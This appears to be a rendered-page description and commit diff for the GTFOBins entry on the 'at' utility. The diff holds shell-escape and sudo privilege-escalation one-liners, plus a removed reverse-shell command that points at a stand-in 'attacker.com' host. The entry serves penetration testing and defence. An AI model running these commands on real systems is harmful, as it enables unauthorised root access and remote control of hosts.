

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/at.md, in a window 1280 px wide. Shown: the top 745 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Improve at and add the shell function

```diff
--- a/_gtfobins/at.md
+++ b/_gtfobins/at.md
@@ -1,8 +1,14 @@
 ---
-description: |
-  at is a command-line utility that allows you to schedule commands to be executed at a particular time.
 functions:
+  shell:
+    - code: |
+        echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
+  command:
+    - description: The invocation will be blind, but it is possible to redirect the output to a file in a readable location.
+      code: |
+        COMMAND=id
+        echo "$COMMAND" | at now
   sudo:
     - code: |
-        echo "nc attacker.com 12345 -e /bin/bash" | sudo at now +1 minutes
+        echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | sudo at now; tail -f /dev/null
 ---
```
